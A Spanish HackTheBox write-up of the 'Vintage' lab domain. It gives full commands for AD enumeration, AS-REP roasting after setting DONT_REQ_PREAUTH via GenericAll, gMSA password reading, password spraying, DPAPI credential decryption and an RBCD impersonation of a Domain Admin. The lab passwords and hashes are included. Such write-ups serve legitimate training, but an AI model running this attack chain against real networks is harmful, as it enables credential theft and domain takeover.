





# Copy of gzzcooVintage

<figure><figcaption></figcaption></figure>

## Reconnaissance

Proceremos a realizar un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Vintage**.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.45 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX.


```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49668,49670,51355,51371,51443,60291 10.10.11.45 -A -oN targeted -oX targetedXML
```


<figure><figcaption></figcaption></figure>

Transformaremos el archivo XML obtenido en el resultado de **nmap** y lo transformaremos en un archivo HTML. Levantaremos un servidor HTTP con Python3.

```bash
xsltproc targetedXML > index.html

python3 -m http.server 80
```

Accederemos a[ http://localhost](http://localhost) y comprobaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio que nos enfrentamos, el nombre del equipo y que tipo de máquina nos enfrentamos.

```bash
netexec smb 10.10.11.45

ldapsearch -x -H ldap://10.10.11.45 -s base | grep defaultNamingContext
```

<figure><figcaption></figcaption></figure>

A través de la herramienta de **ldapsearch** procederemos a enumerar el dominio a través del LDAP, y nos encontramos que el nombre del Domain Controller del dominio es "DC01".

Utilizaremos las credenciales que nos proporciona _HackTheBox._


```bash
ldapsearch -x -H ldap://10.10.11.45 -D "P.Rosa@vintage.htb" -w "Rosaisbest123" -b "DC=vintage,DC=htb" "(objectClass=user)" sAMAccountName memberOf
```


<figure><figcaption></figcaption></figure>

Procederemos a añadir las entradas en nuestro archivo **/etc/hosts**

```bash
catnp /etc/hosts | grep vintage
```

<figure><figcaption></figcaption></figure>

## Users Enumeration (ldapsearch)

A través de la herramienta de **ldapsearch**, procederemos a enumerar los usuarios del dominio, filtraremos por el contenido que nos interesa y almacenaremos los usuarios en el archivo llamado "users.txt".


```bash
ldapsearch -x -H ldap://10.10.11.45 -D "P.Rosa@vintage.htb" -w "Rosaisbest123" -b "DC=vintage,DC=htb" "(objectClass=user)" sAMAccountName memberOf | grep sAMAccountName

ldapsearch -x -H ldap://10.10.11.45 -D "P.Rosa@vintage.htb" -w "Rosaisbest123" -b "DC=vintage,DC=htb" "(objectClass=user)" sAMAccountName memberOf | grep sAMAccountName | grep -v '#' | awk '{print $NF}'

ldapsearch -x -H ldap://10.10.11.45 -D "P.Rosa@vintage.htb" -w "Rosaisbest123" -b "DC=vintage,DC=htb" "(objectClass=user)" sAMAccountName memberOf | grep sAMAccountName | grep -v '#' | awk '{print $NF}' > users.txt
```


<figure><figcaption></figcaption></figure>

Verificaremos el contenido del archivo "users.txt" se hayan almacenado correctamente los nombres de los usuarios del dominio.

```bash
catnp users.txt
```

<figure><figcaption></figcaption></figure>

## NTLM is disabled? Testing Kerberos authentication&#x20;

Durante nuestras pruebas con SMB en la máquina **`Vintage`** utilizando netexec, nos dimos cuenta de que no acepta autenticación NTLM y únicamente permite autenticación mediante Kerberos. Esto quedó claro tras ejecutar los siguientes comandos:

El primer comando falló porque el servidor no permite autenticación sin Kerberos. El segundo también falló porque aunque activamos Kerberos, usamos la IP en vez del nombre del controlador de dominio (DC), lo que impide al cliente solicitar un ticket válido.

El tercer comando fue el único que funcionó, ya que especificamos el nombre completo del DC (**`dc01.vintage.htb`**), permitiendo que Kerberos resolviera el Service Principal Name (SPN) y se autenticara correctamente.

En resumen, la máquina Vintage requiere autenticación exclusiva mediante Kerberos y, además, es necesario utilizar el nombre completo del controlador de dominio para que funcione.

```bash
netexec smb 10.10.11.45 -u 'P.Rosa' -p 'Rosaisbest123'

netexec smb 10.10.11.45 -u 'P.Rosa' -p 'Rosaisbest123' -k

netexec smb dc01.vintage.htb -u 'P.Rosa' -p 'Rosaisbest123' -k
```

<figure><figcaption></figcaption></figure>

Debido a que debemos utilizar Kerberos para autenticarnos contra el Domain Controller, procederemos a configurar nuestra Kali para que no tengamos problemas a la hora de autenticarnos.

Para ello, especificaremos la dirección IP del Domain Controller (10.10.11.45) para que resuelva correctamente los servidores DNS. Reiniciaremos el _NetworkManager_.

Por otra parte, deberemos de sincronizar la hora de nuestra Kali con la del Domain Controller, para evitar problemas a la hora de autenticarnos.

```bash
catnp /etc/resolv.conf | grep '10.10.11.45'

systemctl restart NetworkManager.service

ntpdate -s 10.10.11.45
```

<figure><figcaption></figcaption></figure>

## SMB Enumeration

Realizando una enumeración del SMB mediante Kerberos a través de la herramienta de **netexec**, verificamos que el usuario (P.Rosa@vintage.htb) dispone de los siguientes recursos compartidos, los cuales no parecen tener información relevante.

```bash
netexec smb dc01.vintage.htb -u 'P.Rosa' -p 'Rosaisbest123' -k --shares
```

<figure><figcaption></figcaption></figure>

## LDAP Enumeration (ldapdomaindump) - \[FAILED]

Al realizar una prueba de enumeración de LDAP a través de la herramienta de **ldapdomaindump**, verificamos que no nos acepta las credenciales (aún siendo válidas) debido a que se autentica por NTLM y no por Kerberos, revisando el GitHub de la herramienta, verificamos que solamente permite autenticarse mediante NTLM. [https://github.com/dirkjanm/ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)

Por lo tanto, no podemos hacer uso de la herramienta para realizar una enueraci

```bash
ldapdomaindump -u 'vintage.htb\P.Rosa' -p 'Rosaisbest123' 10.10.11.45 -o ldap
```

<figure><figcaption></figcaption></figure>

## AS-REP Roast Attack (GetNPUsers) - \[FAILED]

Dado que disponemos de una potencial lista de usuarios del dominio válidos, procederemos a intentar realizar un **AS-REP Roast Attack** para solicitar un TGT (Ticket Granting Ticket) de aquellos usuarios que tengan el (DONT\_REQ\_PREAUTH) de Kerberos y así obtener su hash y posteriormente crackearlos de manera offline.

En este caso, ningún usuario cumple esa condición.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt vintage.htb/ 2>/dev/null
```

<figure><figcaption></figcaption></figure>

## Kerberoasting Attack (GetUserSPNs) - \[FAILED]

Debido que disponemos de credenciales de un usuario del dominio, nos plantaremos en realizar un **Kerberoasting Attack** para solicitar un TGS (Ticket Granting Service) y obtener un hash para posteriormente crackearlo. A la hora de realizar el ataque, deberemos de autenticarnos mediante Kerberos (-k).

Tampoco encontramos ningún usuario que sea susceptible a Kerberoasting.


```bash
impacket-GetUserSPNs vintage.htb/P.Rosa:Rosaisbest123 -k -dc-host dc01.vintage.htb -request 2>/dev/null
```


<figure><figcaption></figcaption></figure>

## BloodHound Enumeration

Dado que revisando los puertos expuestos no encontramos vías potenciales para escalar nuestros privilegios, teniendo en cuenta que el NTLM se encuentra deshabilitado y solamente podemos autenticarnos mediante Kerberos, nos plantearemos en realizar una enumeración con **BloodHound** para buscar vías potenciales para escalar privilegios en el dominio.

Lanzaremos la enumeración de **bloodhound-python** a través de la autenticación de Kerberos (-k) y obtendremos un comprimido (.zip) con los JSON de la información del dominio.


```bash
bloodhound-python -c All -ns 10.10.11.45 -u P.Rosa -p Rosaisbest123 -d vintage.htb --zip --auth-method kerberos -k
```


<figure><figcaption></figcaption></figure>

Revisando el **BloodHound**, verificamos que hay dos usuarios Administradores del dominio (l.bianchi\_adm@vintage.htb) y (administrator@vintage.htb).

<figure><figcaption></figcaption></figure>

También verificamos que el equipo (FS01$@vintage.htb) es miembro del grupo (domain computers@vintage.htb) y los miembros de este equipo tienen el privilegio de **ReadGMSAPassword** sobre el objeto (GMSA01$@vintage.htb).

Las cuentas GMSA (Group Managed Service Accounts) son objetos especiales en Active Directory cuya contraseña es administrada automáticamente por los Domain Controllers a interalos establecidos (atributo `MSDS-ManagedPasswordInterval`).

La función principal es permitir que ciertas cuentas puedan recuperar su contraseña para ejecutar servicios locales con privilegios específicos. Sin embargo, si un atacante logra obtener el control de una cuenta autorizada, podría abusar de este privilegio y hacerse pasar por la GMSA.

<figure><figcaption></figcaption></figure>

Revisando los permisos de (GMSA01$@vintage.htb) nos damos cuenta que se puede añadir a él mismo sobre el grupo (SERVICEMANAGERS@vintage.htb) u otros usuarios.&#x20;

Formando parte del grupo (SERVICEMANAGERS@vintage.htb) se poseen los privilegios de **GenericAll** sobre las siguientes 3 cuentas: (svc\_ark@vintage.htb) (svc\_ldap@vintage.htb) (svc\_sql@vintage.htb).&#x20;

Este permiso equivale a un control total sobre estas 3 cuentas, permitiendo a cualquier miembro modificr la cuenta sin restricciones.

<figure><figcaption></figcaption></figure>

## Initial Access

### Abusing ReadGMSAPassword privileges (bloodyAD)

El primer objetivo, será lograr obtener un TGT del equipo (FS01$@vintage.htb), para ello a través de la herramienta de **impacket-getTGT** solicitaremos el tiquet del equipo.&#x20;

En este caso, la contraseña del equipo es la misma que la del nombre del equipo. Conseguimos el ticket y lo exportamos a la variable **KRB5CCNAME** para otbener el tiquet TGT.

```bash
impacket-getTGT vintage.htb/FS01$:fs01

export KRB5CCNAME=FS01\$.ccache
```

<figure><figcaption></figcaption></figure>

A través de la herramienta de **bloodyAD** y autenticándonos con el ticket TGT que tenemos almacenado, verificaremos que podemos leer la contraseña del GMSA y otbener su hash NTLM.

Este comando nos permitirá acceder al atributo msDS-ManagedPassword y obtener la contraseña del GMSA (_GMSA01$@vintage.htb)_, la cual luego podremos utilizar para obtener su hash NTLM.


```bash
bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" -k get object 'GMSA01$' --attr msDS-ManagedPassword
```


<figure><figcaption></figcaption></figure>

### **Abusing AddSelf Privileges with bloodyAD - Adding a Member to a Group**

Una vez obtenido el hash NTLM del GMSA (GMSA01$@vintage.htb), procederemos a solicitar su TGT (Ticket Granting Ticket) para autenticarnos mediante Kerberos debido que la autenticación a través de NTLM parece estar deshablitada o protegida.

Para obtener el TGT, utilizaremos el siguiente comando con el hash NTLM que hemos obtenido previamente.&#x20;

Una vez obtenido el ticket TGT, lo almacenamos nuevamente en la variable KRB5CCNAME para poder utilizarlo en futuros pasos.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">impacket-getTGT vintage.htb/GMSA01$ -hashes aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53
<strong>
</strong><strong>export KRB5CCNAME=GMSA01\$.ccache
</strong></code></pre>

<figure><figcaption></figcaption></figure>

Finalmente, verificamos que el TGT sea válido y que esté correctamente almacenado en nuestra variable utilizando el siguiente comando:

```bash
klist -e
```

<figure><figcaption></figcaption></figure>

Una vez tengamos el TGT del GMSA, procederemos a añadir al usuario (P.Rosa@vintage.htb) al grupo "SERVICEMANAGERS@vintage.htb) que disponemos de acceso a él a través del GMSA.&#x20;

Verificamos que se ha añadido correctamente la usuaria al grupo indicado.


```bash
bloodyAD -d vintage.htb --host dc01.vintage.htb -k add groupMember 'SERVICEMANAGERS' 'P.Rosa'
```


<figure><figcaption></figcaption></figure>

### Abusing GenericAll Privileges - Enabling AS-REP Roasting and Manipulating User Accounts with bloodyAD&#x20;

Una vez tengamos al usuario (P.Rosa@vintage.htb) formando parte del grupo (SERVICEMANAGERS@vintage.htb), con este mismo usuario tenemos permisos de **GenericAll** sobre los 3 usuarios: svc\_ark@vintage.htb | svc\_ldap@vintage.htb | svc\_sql@vintage.htb

Procederemos a solicitar el ticket TGT (Ticket Granting Ticket) del usuario (P.Rosa@vintage.htb), lo almacenaremos en la variable _KRB5CCNAME_ y comprobaremos que disponemos del tiquet correctamente válido y almacenado.

```bash
impacket-getTGT vintage.htb/P.Rosa:Rosaisbest123

export KRB5CCNAME=P.Rosa.ccache

klist -e
```

<figure><figcaption></figcaption></figure>

El objetivo de tener en este caso el privilegio de **GenericAll** sobre estas 3 cuentas, es de habilitarles la opción del (DONT\_REQ\_PREAUTH) para que sean susceptibles a un **AS-REP Roast Attack para** así lograr obtener sus respectivos TGT (Ticket Granting Tickets) y posteriormente crackear sus hashes de manera offline para obtener sus contraseñas.

Revisando en BloodHound, nos damos cuenta que el usuario "svc\_sql@vintage.htb" se encuentra deshabilitado, por lo tanto, como tenemos control total sobre el usuario, también procederemos a quitarle la opción de que la cuenta se encuentre desactivada a través de la herramienta de **bloodyAD**.

<figure><figcaption></figcaption></figure>

Procederemos a establecer con **bloodyAD** para que los 3 usuarios sean susceptibles al **AS-REP Roast Attack** y procederemos a activar nuevamente al usuario (svc\_sql@vintage.htb) a través de los siguientes comandos.

```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb -k add uac 'SVC_ARK' -f DONT_REQ_PREAUTH

bloodyAD --host dc01.vintage.htb -d vintage.htb -k add uac 'SVC_LDAP' -f DONT_REQ_PREAUTH

bloodyAD --host dc01.vintage.htb -d vintage.htb -k add uac 'SVC_SQL' -f DONT_REQ_PREAUTH

bloodyAD --host dc01.vintage.htb -d vintage.htb -k remove uac 'SVC_SQL' -f ACCOUNTDISABLE
```

<figure><figcaption></figcaption></figure>

### Performing an AS-REP Roast Attack again (GetNPUsers)

Debido que hemos habilitado a esos 3 usuarios la opción del (DONT\_REQ\_PREAUTH) de Kerberos, al realizar nuevamente un **AS-REP Roast Attack** verificamos que hemos obtenido los 3 hashes de las 3 cuentas modificadas.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt vintage.htb/ 2>/dev/null
```

<figure><figcaption></figcaption></figure>

Guardaremos los 3 hashes obtenidos en el archivo llamado "hashes" y a través de la herramienta de **john**, procederemos a intentar crackear los hashes para obtener la contraseña en texto plano.

En este caso, nos logra crackear el hash del usuario "svc\_sql" y obtenemos sus respectivas credenciales en texto plano.

```bash
catnp hashes

john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

<figure><figcaption></figcaption></figure>

Validaremos a través de **netexec** de autenticarnos mediante Kerberos (-k) con el usuario y contraseña obtenidos. Comprobamos que efectivamente se tratan de credenciales válidas para el dominio.

```bash
netexec smb dc01.vintage.htb -u 'svc_sql' -p 'Zer0the0ne' -k
```

<figure><figcaption></figcaption></figure>

### Password spraying with Kerbrute

Procederemos de realizar un **Password spraying** autenticándonos mediante Kerberos a través de la herramienta de **Kerbrute** para verificar si esta contraseña se reutiliza con otros usuarios del dominio.

Verificamos que efectivamente ha validado que el usuario (C.Neri@vintage.htb) dispone de las mismas credenciales.

```bash
kerbrute passwordspray -d vintage.htb --dc dc01.vintage.htb users.txt 'Zer0the0ne'
```

<figure><figcaption></figcaption></figure>

Validaremos nuevamente a través de **netexec** de que las credenciales si son válidas para el usuario (c.neri@vintage.htb).

```bash
netexec smb dc01.vintage.htb -u 'c.neri' -p 'Zer0the0ne' -k
```

<figure><figcaption></figcaption></figure>

### Abusing Win-RM - EvilWinRM

Revisando en BloodHound los privilegios de este nuevo usuario, nos damos cuenta que tiene permisos de **CanPSRemote** sobre el Domain Controller (dc01.vintage.htb). Por lo tanto, a través de **evil-winrm** podremos conectarnos al DC.

<figure><figcaption></figcaption></figure>

Debido que a través de NTLM no podemos autenticarnos, deberemos primeramente solicitar el TGT (Ticket Granting Ticket) del usuario para almacenar el ticket en la variable _KRB5CCNAME_ y posteriormente validar que el tiquet sea válido y se encuentre almacenado correctamente a través de los siguientes comandos.

```bash
impacket-getTGT vintage.htb/C.Neri:Zer0the0ne

export KRB5CCNAME=C.Neri.ccache

klist -e
```

<figure><figcaption></figcaption></figure>

Una vez tengamos el ticket TGT, procederemos a autenticarnos al **evil-winrm** mediante Kerberos para conectarnos al Domain Controller. Verificaremos el acceso y la flag del **user.txt**.

```bash
evil-winrm -i dc01.vintage.htb -r vintage.htb
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Abusing DPAPI Secrets to Move Laterally (impacket-dpapi)

Una vez obtenido el acceso al Domain Controller, el siguiente paso será elevar nuestros privilegios para convertirnos finalmente en Domain Admins.

Buscando posibles vectores para escalar nuestros privilegios, nos encontramos con el **DPAPI Privilege Escalation ->** [**https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets**](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)

**¿Qué es DPAPI?**

**DPAPI (Data Protection API)** es una API de Windows que protege datos sensibles como contraseñas y claves mediante criptografía. Su objetivo es asegurar que solo el usuario o equipo autorizado pueda acceder a esa información. Sin embargo, si un atacante tiene acceso al sistema o privilegios elevados, puede extraer o descifrar estos secretos usando herramientas como **Mimikatz** o **Secretsdump**. Esto se convierte en un vector de escalación de privilegios, ya que los secretos protegidos pueden contener credenciales que permiten el acceso a otras cuentas o servicios.

Una vez obtenemos acceso al Domain Controller a través de **Evil-WinRM**, navegamos al directorio donde se almacenan las credenciales protegidas por DPAPI, específicamente en **C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials**. Usamos el comando **dir -force** para visualizar los archivos, luego eliminamos los atributos de oculto y solo lectura (**attrib -h -s**) para poder acceder a ellos. Finalmente, descargamos el archivo que contiene las credenciales con el comando **download** para proceder a su análisis posterior.


```powershell
cd C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials

dir -force

attrib -h -s 

download C4BB96844A5C9DD45D5B6A9859252BA6
```


<figure><figcaption></figcaption></figure>

Después de descargar el archivo, accedimos al directorio **Microsoft\Protect**, que es donde se guardan los datos de protección relacionados con las credenciales. Navegamos hasta la carpeta correspondiente al SID del usuario **C.Neri**, **S-1-5-21-4024337825-2033394866-2055507597-1115**, y encontramos otro archivo relacionado con las credenciales protegidas.

Realizamos el mismo procedimiento para eliminar los atributos de oculto y solo lectura y procedimos con la descarga del archivo **99cf41a3-a552-4cf7-a8d7-aca2d6f7339b.** En mi caso, si no se elimaba los atributos de oculto y solo lectura el **evil-winrm** nos daba un error.


```powershell
cd C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\

dir -force

cd S-1-5-21-4024337825-2033394866-2055507597-1115

dir -force

attrib -h -s 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b

download 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
```


<figure><figcaption></figcaption></figure>

Una vez descargados ambos archivos de manera local en nuestro equipo, utilizamos la herramienta **impacket-dpapi** para desencriptar la _master key_ de DPAPI.

Con esta _master key_ en mano, procedimos a desencriptar los datos protegidos por DPAPI, lo que nos permitió acceder a las credenciales de un usuario del dominio (c.neri\_adm@vintage.htb).


```bash
impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne

impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```


<figure><figcaption></figcaption></figure>

Validaremos si estas credenciales obtenidas son válidas a través de **netexec**, verificamos que efectivamente las credenciales encontradas son válidas para este usuario.

```bash
netexec smb dc01.vintage.htb -u 'c.neri_adm' -p 'Uncr4ck4bl3P4ssW0rd0312' -k
```

<figure><figcaption></figcaption></figure>

### Abusing AllowedToAct privileges (Resource-based  Constrained Delegation \[RBCD Attack]) - (impacket-getST)

Revisando en **BloodHound** los permisos que dispone este nuevo usuario (c.neri\_adm@vintage.htb) nos percatamos de que el usuario forma parte del grupo (delegatedadmins@vintage.htb).

<figure><figcaption></figcaption></figure>

l investigar más a fondo los miembros de este grupo, descubrimos que (l.bianchi\_adm@vintage.htb), un Domain Admin, también pertenece a él.

<figure><figcaption></figcaption></figure>

Tras analizar los permisos de los miembros de este grupo, encontramos que tienen permisos de **AllowedToAct** sobre el Domain Controller. Esto abre la puerta para explotar la delegación de servicios basada en recursos (RBCD) y realizar un ataque para movernos lateralmente o escalar privilegios en el dominio.

<figure><figcaption></figcaption></figure>

Al revisar BloodHound, vimos que los miembros del grupo **DELEGATEDADMINS@VINTAGE.HTB** tienen permisos en el atributo **msds-AllowedToActOnBehalfOfOtherIdentity** en el controlador de dominio **DC01.VINTAGE.HTB**. Esto nos permite ejecutar una cadena de abuso **S4U2self/S4U2proxy** para suplantar a cualquier usuario del dominio en el sistema de destino y obtener un ticket de servicio válido como ese usuario.

Algunas consideraciones importantes:

1. Los usuarios a los que intentemos suplantar no deben ser parte del grupo **Protected Users** ni tener delegación de privilegios revocados.
2. El principal añadido al **msDS-AllowedToActOnBehalfOfOtherIdentity** debe tener un **Service Principal Name (SPN)** configurado para que el proceso de **S4U2self/S4U2proxy** funcione correctamente.

<figure><figcaption></figcaption></figure>

En este punto, el objetivo es conseguir una cuenta que disponga de un SPN ficticio para realizar el **RBCD Attack** y poder impersonar al Domain Admin (l.bianchi\_adm@vintage.htb).

Revisando los usuarios que disponemos de sus credenciales que tenemos (owned), recoradmos que disponemos de los siguientes usuarios:

* P.Rosa -> usuario que añadimos a que forme parte del grupo "SERVICEMANAGERS@vintage.htb" y que disponemos de sus credenciales.
* svc\_sql -> tenemos las credenciales de este usuario y control total sobre él mediante (P.Rosa@vintage.htb) y (GMSA01$@vintage.htb).&#x20;
* C.Neri -> solamente tenemos acceso a las credenciales de este usuario.
* C.Neri\_adm -> este usuario forma parte del grupo "DELEGATEDADMINS" y tiene la capacidad de añadir usuarios a este grupo.

Con esto en mente, la estrategia es aprovechar el usuario **svc\_sql** para generar un SPN ficticio y asignárselo mediante (P.Rosa@vintage.htb), quien tiene control total sobre svc\_sql y puede modificar su _ServicePrincipalName_ (SPN), lo que nos permitirá ejecutar el ataque.

Para ello, primero solicitaremos el TGT (Ticket Granting Ticket) del usuario (c.neri\_adm@vintage.htb), almacenaremos el ticket en la variable _KRB5CCNAME_ y validaremos que sea un ticket válido y se encuentre correctamente almacenado.

```bash
impacket-getTGT vintage.htb/c.neri_adm:Uncr4ck4bl3P4ssW0rd0312

export KRB5CCNAME=c.neri_adm.ccache

klist -e
```

<figure><figcaption></figcaption></figure>

Con el TGT del usuario (c.neri\_adm@vintage.htb) añadiremos al usuario (svc\_sql@vintage.htb) al grupo de (delegatedadmins@vintage.htb), ya que los miembros de este grupo pueden realizar el **RBCD Attack**.

Una vez añadido el usuario al grupo, procederemos a solicitar el TGT (Ticket Granting Ticket) del usuario (P.Rosa@vintage.htb) para posteriormente seguir con la explotación del ataque.


```bash
bloodyAD -d vintage.htb --host dc01.vintage.htb -k add groupMember 'DELEGATEDADMINS' 'SVC_SQL'

impacket-getTGT vintage.htb/P.Rosa:Rosaisbest123

export KRB5CCNAME=P.Rosa.ccache

klist -e
```


<figure><figcaption></figcaption></figure>

Con el TGT del usuario (P.Rosa@vintage.htb) procederemos a asignarle al usuario "svc\_sql@vintage.htb) al cual tenemos privilegios de **GenericAll** sobre él un SPN (ServicePrincipalName) ficticio.

Una vez le asignemos un SPN ficticio, procederemos a solicitar el TGT del usuario (svc\_sql@vintage.htb).


```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName -v "cifs/gzzcoo"

impacket-getTGT vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb

export KRB5CCNAME=svc_sql.ccache

klist -e
```


<figure><figcaption></figcaption></figure>

Obtenido el TGT del uisuario (svc\_sql@vintage.htb), teniendo el SPN ficticio asignado a este usuario, procederemos a realizar el **RBCD Attack** mediante la herramienta de **impacket-getST** para impersonar al usuario (l.bianchi\_admin@vintage.htb).

Una vez tengamos el TGT del usuario impersonado, procederemos a expotarlo en la variable _KRB5CCNAME_ y de acceder al Domain Controller mediante **wmiexec.py** a través del TGT solicitado.

Verificamos que ganamos acceso al Domain Controller siendo el Domain Admin (l.bianchi\_adm@vintage.htb) y podemos verificar la flag de **root.txt**.


```bash
impacket-getST -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne' 2>/dev/mull

KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache wmiexec.py dc01.vintage.htb -k -no-pass
```


<figure><figcaption></figcaption></figure>
